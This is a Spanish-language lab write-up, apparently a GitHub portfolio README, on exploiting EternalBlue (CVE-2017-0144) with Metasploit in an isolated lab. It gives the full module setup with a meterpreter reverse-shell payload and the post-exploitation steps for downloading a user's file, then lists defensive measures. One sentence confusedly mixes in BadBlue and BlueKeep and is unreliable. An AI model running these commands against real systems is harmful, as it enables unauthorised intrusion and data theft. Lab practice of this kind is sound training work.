# CVE-2017-0144 - EternalBlue en Windowsploitable

> Laboratorio realizado en un entorno local/controlado con fines educativos. No aplicar estas tecnicas sobre sistemas de terceros sin autorizacion expresa.

## Objetivo

Documentar la preparacion de red, validacion y explotacion de EternalBlue en un laboratorio aislado.

## Informacion general

- Categoria: Explotacion controlada
- Entorno: Kali Linux y maquinas vulnerables de laboratorio
- Formato: documentacion tecnica para portfolio GitHub

## Desarrollo de la practica

Alcance: Explotación de vulnerabilidad Eternalblue

Vulnerability Details : CVE-2017-0144

El servidor SMBv1 en Microsoft Windows Vista SP2; Windows Server 2008 SP2 y R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold y R2; Windows RT 8.1; y Windows 10 Gold, 1511 y 1607; y Windows Server 2016 permite a atacantes remotos ejecutar código arbitrario a través de paquetes manipulados, vulnerabilidad también conocida como "Windows SMB Remote Code Execution Vulnerability". Esta vulnerabilidad es diferente a la descrita en CVE-2017-0143, CVE-2017-0145, CVE-2017-0146 y CVE-2017-0148.

WindowsMetasploitable

Primero configuramos las maquina para que tengan conexión entre ellas.

```bash

sudo ip addr add 10.0.2.10/24 dev eth0

```

Habremos creado un túnel para que tengan conexión las dos máquinas y todo el trafico lo redirija a la IP indicada.

```bash

nmap -sV 10.0.2.101

```

Utilizaremos en metasploit el servicio BadBlue por el puerto 9090 ya que es mas estable que todas las opciones de BlueKeep.


### Iniciamos metasploit con

```bash

msfconsole

```


### Ahora hacemos las configuraciones necesarias para preparar el exploit

```bash

search eternalblue

use exploit/windows/smb/ms17_010_eternalblue

show targets

set TARGET 3

set RHOSTS 10.0.2.101

set LHOST 10.0.2.10

show payloads

set payload windows/x64/meterpreter/reverse_tcp

show options

exploit

```

Una vez dentro utilizamos los siguientes comandos para navegar hasta el escritorio y descargarnos el documento deseado:

getuid

cd C:\\Users\\bob\\Desktop

```bash

ls

```

download archivo_importante.txt


### Ahora ya podemos salir de la sesión de meterpreter con el comando

exit

## Evidencias visuales

### Captura 01



### Captura 02



### Captura 03



### Captura 04



### Captura 05



### Captura 06



### Captura 07



### Captura 08



### Captura 09



### Captura 10



### Captura 11



### Captura 12



### Captura 13



### Captura 14


### Captura 15




## Medidas defensivas y aprendizaje

- Mantener servicios actualizados y eliminar software obsoleto.
- Exponer solo los puertos necesarios y aplicar reglas de firewall.
- Usar segmentacion de red para aislar maquinas vulnerables o servicios criticos.
- Revisar logs de autenticacion, red y aplicacion tras cualquier prueba.
- Sustituir servicios inseguros por alternativas cifradas y soportadas.
- Aplicar el principio de minimo privilegio en usuarios, servicios y demonios.
- Documentar cada hallazgo con evidencia, impacto y recomendacion.

## Notas

- Se ha eliminado informacion personal y marcas de confidencialidad del documento original.
- Las rutas, IPs y credenciales que aparecen pertenecen a entornos de laboratorio o maquinas vulnerables preparadas para practica.
- Este README es la version limpia para GitHub; conserva los documentos originales solo en privado.
